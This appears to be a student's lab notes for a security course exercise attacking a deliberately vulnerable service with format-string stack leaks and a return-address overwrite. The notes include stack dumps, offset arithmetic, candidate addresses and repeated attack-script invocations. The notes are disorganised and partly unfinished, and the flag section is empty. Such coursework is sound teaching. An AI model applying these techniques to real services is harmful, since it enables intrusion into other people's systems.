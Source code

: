 # Exercise 4
## Jakob Udovic, s1049877

https://www.rapidtables.com/convert/number/hex-to-ascii.html  

After feeding the stack with 300 (290) %p-s, I overwrote all data, except the first 5 registers.  %p-s bytes overwrote everything again, 500 "%p "-s crashed the service.  

```
0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x
```

After observing the stack with like 50 %p-s, I found out these could be the frame pointer and return address:  
0x7fffffffec10 0x555555555260

With **231 bytes** long string I have overriten the first return address. We need to remember this number. There is, however, 20 at the end of it, so null bytes will be needed.  

Address looks like this:  
```
0x123456789abc20
```

List/shell code is 33 bytes long.   
231 - 33 = 198   
33 byes means 11 "%p " strings since each one consists of 3 ascii characters, 1 byte each.  

75 - 11 = 64  

So we change attack from `./attack.sh 75 0x123456789abc` to `./attack.sh 64 0x123456789abc 0`  
```


```
But address has still 20 at the end. I solve this by shortening the string from 231 bytes to 230. I get the following:  
`./attack.sh 63 0x123456789abc 2`  
Now it's time to use real addresses, I just used 0x123456789abc for easier tracking in terminal..   


0x7ffff7f60070   

./attack.sh 63 0x7ffff7f60070 2
```

```

Candidates:
0x7fffffffec00 (fp1)  
0x7fffffffec68 (fp2)  
0x7fffffffec10 (fp3?)  
0x7ffff7f851f5  
0x7ffff7f851ce  (fp??)
0x7fffffffec50  
0x7ffff7ffdd48 (fp)  
0x7fffffffee50 (fp dont even count anymore)  
0x7fffffffee5e (buffer start?)

Temporal calculation:  
String needs to be 189B.  
`./attack.sh 61 0x123456789abc`  
is the same as  
`./attack.sh 50 0x123456789abc 0`  

We need to add 1 byte of offset to completely override first return address:  
`./attack.sh 50 0x123456789abc 1`  


./attack.sh 50 0x7fffffffee5e 1
./attack.sh 50 0x7fffffffec00 1
./attack.sh 50 0x7fffffffec68 1
./attack.sh 50 0x7fffffffec10 1
./attack.sh 50 0x7ffff7f851f5 1 ?
./attack.sh 50 0x7ffff7f851ce 1
./attack.sh 50 0x7fffffffec50 1
./attack.sh 50 0x7ffff7ffdd48 1
./attack.sh 50 0x7fffffffee50 1
./attack.sh 50 0x7fffffffee5e 1
./attack.sh 50  1
./attack.sh 50  1

Bunch of crap on the stack:  
0x7fffffffee5e  
0x7fffffffeea0   
0x7fffffffeeab  
0x7fffffffef06  
0x7fffffffef1a  
0x7fffffffef26  
0x7fffffffef2c  
0x7fffffffef3f  
0x7fffffffef46  
0x7fffffffef54  
0x7fffffffef62  
0x7fffffffef78  
0x7fffffffef87  
0x7fffffffefa4  
0x7fffffffefb8  
0x7fffffffefd5  


By further observing stack and flipping values as in exercise 3 I found:  

Running ./addr.sh for the following values, I got:  
```
declare -a arr=("0x4af8a06910402000" "0xcdbc08904063bae9" "xb2c1e117f0365c00" "0x6bc427b1f25ef6a1" "0x34365f363878bf" "0x6c75762f6e69622f" "0x415000767265736e" "0x2f7273752f3d4854" "0x62732f6c61636f6c" "0x2f7273752f3a6e69" "0x69622f6c61636f6c" "0x732f7273752f3a6e" "0x7273752f3a6e6962" "0x62732f3a6e69622f" "0x6e69622f3a6e69" "0x6574783d4d524554" "0x4944444150006d72" "0x41414141413d474e" "0x4141414141414141" "0x4141414141414141" "0x4141414141414141" "0x4141414141414141" "0x4141414141414141" "0x4141414141414141" "0x4141414141414141" "0x69676f6c6f6e2f6e" "0x6e3d52455355006e" "0x57500079646f626f" "0x415f434c002f3d44" "0x53555f6e653d4c4c" "0x4800382d4654552e" "0x4f53002f3d454d4f" "0x3d4449505f544143" "0x41434f5300343034" "0x313d444950505f54" "0x5f5441434f530033" "0x3d4e4f4953524556" "0x342e332e372e31" "0x3d454d414e474f4c" "0x530079646f626f6e" "0x434f535f5441434f" "0x37313d524444414b" "0x2e37322e37312e32" "0x41434f5300333432" "0x4f504b434f535f54" "0x373333313d5452" "0x45505f5441434f53" "0x313d524444415245" "0x37322e37312e3237" "0x434f53003234322e" "0x50524545505f5441" "0x333633333d54524f" "0x762f6e69622f0038" "0x767265736e6c75")
```
```
x86_64/bin/vulnservPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binTERM=xtermPADDING=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAn/nologinUSER=nobodyPWD=/LC_ALL=en_US.UTF-8HOME=/SOCAT_PID=404SOCAT_PPID=13SOCAT_VERSION=1.7.3.4LOGNAME=nobodySOCAT_SOCKADDR=172.17.27.243SOCAT_SOCKPORT=1337SOCAT_PEERADDR=172.17.27.242SOCAT_PEERPORT=33638/bin/vulnserv
```


Nicer:  
```
x86_64/bin/vulnserv
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
TERM=xterm
PADDING=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAn/nologin
USER=nobody
PWD=/
LC_ALL=en_US.UTF-8
HOME=/
SOCAT_PID=404
SOCAT_PPID=13
SOCAT_VERSION=1.7.3.4
LOGNAME=nobody
SOCAT_SOCKADDR=172.17.27.243
SOCAT_SOCKPORT=1337
SOCAT_PEERADDR=172.17.27.242
SOCAT_PEERPORT=33638
/bin/vulnserv
```



Just the stack 40B:  
```
0x70252070252070 0 0 0 0 0 0 0x555555555257 0x7fffffffec00 0x555555555247 0x7fffffffec68 0x100000000 0x7fffffffec10 0x555555555260 0x1 0x7ffff7f851f5 0x7ffff7f851ce 0x7fffffffec50 0 0xf8 0x7ffff7ffdd48
```



```
0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x70 0 0 0 0 0 0 0 0 0 0x555555555257 0x7fffffffec00 0x555555555247 0x7fffffffec68
```



```

```


Flag:  
```

```
 